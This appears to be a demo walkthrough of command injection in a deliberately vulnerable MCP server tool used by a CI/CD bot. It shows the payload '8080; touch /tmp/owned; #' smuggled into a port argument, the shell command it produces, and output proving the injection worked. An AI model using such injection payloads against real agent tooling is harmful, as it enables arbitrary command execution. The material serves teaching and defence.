 # 🚨 Attack Walkthrough: MCP Command Injection Demo

This document provides a step-by-step walkthrough of the command injection attacks demonstrated in the MCP injection demo.

## 🎯 Demo Scenario Overview

**Context:** CI/CD bot uses MCP server to check if applications are running on required ports before deployment.

**Vulnerability:** Insecure parameter handling in the `which-app-on-port` tool allows command injection.

**Impact:** Attackers can execute arbitrary commands with the same privileges as the MCP server.

## 🚨 Attack 1: Type Coercion Attack

### Step 1: Normal Operation
```bash
# Start vulnerable MCP server
npm run start:vulnerable

# In another terminal, run normal port check
node server/agent_client.js --port=8080
```

**Expected Output:**
```
🔍 [NORMAL] CI/CD Bot checking port 8080...
✅ [NORMAL] Port check completed successfully
📋 Response: No application found running on port 8080
```

### Step 2: Type Coercion Attack
```bash
# Execute type coercion attack
node server/agent_client.js --port="8080; touch /tmp/owned; #"
```

**Attack Analysis:**
- **Payload:** `8080; touch /tmp/owned; #`
- **Injected Command:** `lsof -t -i tcp:8080; touch /tmp/owned; #`
- **Effect:** Creates file `/tmp/owned` as proof of successful injection

**Expected Output:**
```
🚨 [ATTACK] CI/CD Bot executing type coercion attack...
📝 Payload: 8080; touch /tmp/owned; #
⚠️  [ATTACK] Type coercion attack executed
📋 Response: No application found running on port 8080

🔍 [SIDE EFFECTS] Checking for type_coercion side effects...
⚠️  [SIDE EFFECT] Found: -rw-r--r-- 1 user user 0 Jan 1 12:00 /tmp/owned
```
